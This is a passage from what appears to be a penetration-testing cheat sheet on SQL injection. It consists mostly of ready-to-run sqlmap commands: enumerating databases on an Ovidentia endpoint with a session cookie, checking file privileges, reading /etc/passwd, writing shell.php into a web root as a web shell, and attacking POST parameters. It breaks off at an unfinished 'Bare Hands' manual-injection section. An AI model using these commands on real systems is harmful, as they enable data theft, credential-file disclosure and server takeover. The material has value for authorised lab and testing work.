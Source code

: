 ```bash
./sqlmap.py -u http://target/ovidentia/index.php\?tg\=delegat\&idx\=mem\&id\=1 --cookie "Cookie: OV1364928461=6kb5jvu7f6lg93qlo3vl9111f8" --random-agent --risk 3 --level 5 --dbms=mysql -p id --dbs
```

#### Checking Privileges

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 --privileges | grep FILE
```

#### Reading file

```bash
./sqlmap.py -u <URL> --file-read=<file to read>
```

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-read=/etc/passwd
```

#### Writing file

```
./sqlmap.py -u <url> --file-write=<file> --file-dest=<path>
```

```
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-write=shell.php --file-dest=/var/www/html/shell-php.php
```

#### POST

```bash
./sqlmap.py -u <POST-URL> --data="<POST-paramters> "
```

```bash
./sqlmap.py -u http://localhost/Less-11/ --data "uname=teste&passwd=&submit=Submit" -p uname
```

You can also use a file like with the post request:

```bash
./sqlmap.py -r post-request.txt -p uname
```

### Bare Hands

#### GET

#### Error-Based

#### Simple test

`Adding a simpe quote '`

Example: 
